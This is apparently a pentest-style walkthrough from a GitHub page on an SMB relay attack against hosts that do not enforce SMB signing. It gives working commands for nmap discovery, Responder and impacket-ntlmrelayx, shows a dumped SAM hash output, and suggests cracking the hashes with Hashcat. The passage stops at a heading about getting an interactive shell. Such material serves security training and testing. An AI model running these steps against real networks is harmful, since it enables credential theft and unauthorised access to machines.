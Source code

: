 
## 🚩SMB Relay Attack - Service Message Block

SMB (Server Message Block) is a protocol used for file shares, printers, and other resources on a network. This common protocol can be abused when an attacker on the same internal network (domain and or subdomain) is actively attempting to capture the NTLM hashes transmitted over the network. Which is then maliciously relayed to a service / server, granting access since the hash is authenticated.

**Requirements:**  
* SMB signing must be disabled or not enforced on the target machine.  
* Target machine should be admin, domain admin or service accounts for maximum effect.
* Responder config files /etc/responsder/Responder.conf must have smb and https turned off, so that captured hashes are not stored but are instead 'relayed'.

![image](https://github.com/user-attachments/assets/d8f8f9fc-6393-4e74-877a-9a0a0731cc97)  

🔴 The reason why these are turned off is to prevent the authentication response from being captured, but rather we are attempting to 'relay' them to our targets lists.


1. Firstly identify hosts without SMB signing. 

            nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn 
      
![image](https://github.com/user-attachments/assets/52f6904d-f256-467c-9b40-414b011f57c2)

2. Once we have discovered our targets (have SMB signing disabled and not required). Create a targets.txt detailing the targets.

            nano target.txt > add target ips into file

3. Start responsder with the new edited config files.

            responder -I eth0 -dPv

5. Start ntlmrelayx.py or impacket-ntlmrelayx.

            impacket-ntlmrelayx -tf targets.txt -smb2support

![image](https://github.com/user-attachments/assets/ac597d69-e6d9-4da3-affa-ca352ce13850)  

            [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
            Administrator:500:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2709e4a8da75eb3a5c72700995058b08:::
            peterparker:1001:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            [*] Done dumping SAM hashes for host: 192.168.64.140
            [*] Stopping service RemoteRegistry
            [*] Restoring the disabled state for service RemoteRegistry
Above figure presents a SAM Dump - We could in this instance use Hashcat with -m 1000 in the attempts to crack the NT portion of the hashes.

We have succesfully captured the NTLM hash from peterparker with Responder relaying the SAM authentication back to the server using impacket-ntlmrelayx. 

6. Gaining interactive -i shell with impacket.

